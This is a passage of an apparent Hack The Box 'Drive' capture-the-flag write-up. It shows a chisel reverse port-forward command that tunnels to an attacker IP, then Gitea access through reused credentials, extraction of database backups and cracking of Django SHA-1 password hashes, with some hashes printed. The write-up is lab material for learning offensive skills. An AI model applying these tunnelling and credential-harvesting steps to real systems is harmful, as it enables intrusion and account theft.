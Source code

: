 ![image](/assets/htb-drive/Pasted_image_20231129075006.png)
we see theres `3306 33060` which is `mysql` and `3000` port. we can curl port 3000 it to confirm its a gitea instance

From here on, we port forward it

## chisel reverse port forward

```bash
on target machine
./chisel client 10.10.16.68:9001 R:3000:127.0.0.1:3000
```

```bash
on attacking machine
./chisel_1.9.1_linux_amd64 server -p 9001 --reverse
```

## gitea

![image](/assets/htb-drive/Pasted_image_20231129075116.png)
well, we dont have any password for any user, so we are still missing a piece.
Now if we remember from the fuzzing we found a file that talked about databases in `/var/www/backups`, lets cd into it to find

## database file

![image](/assets/htb-drive/Pasted_image_20231129075234.png)
the backups db are password protected and we couldnt crack it, but if we try the `db.sqlite3` db we can see theres a table called `accounts_customer`

![image](/assets/htb-drive/Pasted_image_20231129075348.png)

![image](/assets/htb-drive/Pasted_image_20231129075640.png)
The hash format is `124` `Django (SHA-1)`,we could only crack the hash for
`tom@drive.htb:[REDACTED]` but oh bummer, we cant ssh as tom.
lets try gitea creds for martinCruz since we know his username now and we get logged in

![image](/assets/htb-drive/Pasted_image_20231129082656.png)

![image](/assets/htb-drive/Pasted_image_20231129082712.png)

we find the password for 7z zip file in `db_backup.sh`
we transfer the db in `/var/www/backups` files form target machine to our machine and use it to extract the db files. The passwords are under `accounts_customuser` table.

now, one thing here is the `1_Dec_db_backup.sqlite3.7z` had a different hash type and it was taking its sweet time to crack it so we skipped that one, the other hashes we found were able to crack

```bash
hash from oct sqlite
sha1$Ri2bP6RVoZD5XYGzeYWr7c$71eb1093e10d8f7f4d1eb64fa604e6050f8ad141:[REDACTED]

hash from Nov sqlite
sha1$Ri2bP6RVoZD5XYGzeYWr7c$4053cb928103b6a9798b2521c4100db88969525a:[REDACTED]
```
